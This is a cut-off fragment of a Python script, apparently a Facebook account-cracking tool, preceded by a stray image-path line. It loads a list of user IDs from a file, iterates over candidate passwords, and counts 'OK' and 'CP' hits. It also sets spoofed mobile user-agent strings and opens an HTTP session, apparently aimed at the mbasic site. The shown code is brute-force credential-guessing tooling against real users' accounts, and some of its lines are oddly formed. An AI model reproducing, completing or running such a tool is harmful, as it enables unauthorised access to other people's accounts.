 	def __init__(self):

		self.id = []

	def plerr(self):

		try:

			self.apk = input(" \033[1;96m[*] F I L E  P A T H : ")

			print (' \033[1;96m[*]｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡')

			self.id = open(self.apk).read().splitlines()

			print(' \033[1;32m[*] TOTAL ID : %s'%(len(self.id)))

			print (' \033[1;32m[*]｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡')

			print(' \033[1;93m[*]\033[1;93m    M E T H O D\033[1;37m')

			print (' \033[1;93m[*]｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡')

		except:

			print('\n [!] File Not Found In Storage')

			input('\n [*] Press Enter To Back');R()

     

		self.__pler__()

	def __mbasic__(self, user, _sempak_):

		global ok,cp,loop

		sys.stdout.write('\r\033[1;32m[ Shani ❤️] \033[1;97m%s/%s   \033[1;92m[ OK-:%s ]  \033[1;91m[ CP-:%s ] '%(loop,len(self.id),len(ok),len(cp))),

		sys.stdout.flush()

		for pw in _sempak_:

			pw = pw.lower()

			try: os.mkdir('')

			except: pass

			try:

				ua_xiaomi = open('agent.txt', 'r').read()

				ua_nokia = open('agent.txt', 'r').read()

			except (KeyError, IOError):

				ua_xiaomi  = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'

				ua_nokia   = 'nokiac3-00/5.0 (07.20) profile/midp-2.1 configuration/cldc-1.1 mozilla/5.0 applewebkit/420+ (khtml, like gecko) safari/420+'

			ses = requests.Session()
